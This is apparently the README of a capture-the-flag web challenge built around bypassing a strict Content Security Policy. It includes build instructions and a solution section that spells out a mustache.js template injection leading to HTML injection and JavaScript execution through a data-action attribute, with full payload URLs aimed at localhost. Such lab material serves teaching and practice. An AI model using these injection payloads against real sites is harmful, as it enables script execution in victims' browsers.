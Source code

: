 # SANTAS NAUGHTY LIST

SANTAS NAUGHTY LIST is using a strict Content Security Policy to protected against all(?) XSS attacks.

## Description

Everybody is affected by COVID-19, even Santa! He can not handing out gifts due to the massive lockdown. If he cannot to find a bypass, nobody will get presents this year.

## Build with Docker

```bash
docker-compose build
```

## Run with Docker

Add flag to the [``docker-compose.yml``](./docker-compose.yml).

```bash
docker-compose up --build
```

The web server is exposed on TCP port 26. You can change it in the ``docker-compose.yml`` file.

## Build without Docker

First install [go](https://golang.org/). Next you have to install the go dependencies:

```bash
go get
```

The project is using [Go Modules](https://github.com/golang/go/wiki/Modules).

```bash
# Linux AMD64 portable
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build
```

## Usage without Docker

Start server:
```bash
./santas-naughty-list
```

## Solution

If you solved one step, the app will detect it and print a message.

1. Step: Find mustache.js template injection:
```
    http://localhost:8080/default.aspx?naughty={%22test%22:%22\%22%3E%22}&lang={{name}}
```

2. Step: Inject HTML:
```
naughty={"test":"\"><h1>HTML Injeciton</h1>"}
lang={{{people.test}}}

http://localhost:8080/default.aspx?naughty={%22test%22:%22\%22%3E%3Ch1%3EHTML%20Injeciton%3C/h1%3E%22}&lang={{{people.test}}}
```
3. Step: Execute abritary JavaScript via ``data-action`` attribute:
```
naughty={"test":"\"><a href=x data-action='{\"method\":\"alert\",\"parameters\":[\"hello\"]}'>HTML Injection</a>"}
lang={{{people.test}}}

http://localhost:8080/default.aspx?naughty={%22test%22:%22\%22%3E%3Ca%20href=x%20data-action=%27{\%22method\%22:\%22alert\%22,\%22parameters\%22:[\%22hello\%22]}%27%3EHTML%20Injection%3C/a%3E%22}&lang={{{people.test}}}
```
The flag will be disclosed if you successfully injected JavaScript.